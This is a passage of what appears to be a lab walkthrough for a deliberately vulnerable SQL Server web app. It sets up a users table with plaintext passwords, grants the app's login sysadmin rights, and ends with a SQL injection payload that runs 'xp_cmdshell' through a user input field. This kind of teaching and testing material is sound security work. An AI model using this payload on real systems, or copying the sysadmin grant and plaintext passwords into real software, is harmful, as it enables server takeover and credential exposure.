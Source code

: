    ```
   CREATE TABLE users (
    ID INT PRIMARY KEY,
    Username VARCHAR(50),
    Password VARCHAR(50),
    Email VARCHAR(100)
   );
   
   INSERT INTO users (ID, Username, Password, Email)
   VALUES
   (1, 'admin', 'password123', 'admin@example.com'),
   (2, 'user1', 'userpass', 'user1@example.com'),
   (3, 'user2', 'user2pass', 'user2@example.com'),
   (4, 'user3', 'user3pass', 'user3@example.com');
   ```
   The data can be found by expanding the Tables Node located under the master node
   ![image](https://github.com/user-attachments/assets/6cb4fa5a-230a-48bc-a7b7-f2907bc5ddd5)
9. Download and install Microsoft ODBC Driver for SQL Server (x64) in the reference link above. After installation, test the web app in localhost. If it does not work, repair the ODBC Driver by reinstalling and choose repair
10. To give admin privileges to the SQL Server account, it needs to be added to the `sysadmin` role (highest-level admin role in SQL). However, the SQL account username needs to be known first, and can be identified using
   ```
   SELECT name 
   FROM sys.syslogins 
   WHERE type_desc = 'SQL_LOGIN';
   ```
   or either one of these commands
   ```
   SELECT USER_NAME();
   SELECT CURRENT_USER;
   ```
   Then to use SQL Query to grant `sysadmin` privileges, run
   ```
   EXEC sp_addsrvrolemember 'username', 'sysadmin';
   ```
   To verify the privileges, run
   ```
   SELECT name, type_desc, is_disabled 
   FROM sys.server_principals 
   WHERE type_desc = 'SQL_LOGIN' AND name = 'username';
   ```
   or
   ```
   SELECT * FROM sys.syslogins WHERE name = 'username';
   ```
11. In the web app, add `1` into the user input field to check and retrieve data with ID = 1 stored in the database table
12. To inject `xp_cmdshell` into the query, use a dynamic SQL within the query as the following. The SQL Server interprets and run a dynamic SQL string which would not be blocked in a standard SQL query
    ```
    1'; EXEC xp_cmdshell 'whoami';--
    ```
    ![image](https://github.com/user-attachments/assets/d112bbfc-7e04-4f95-865e-5f723f14b8ed)
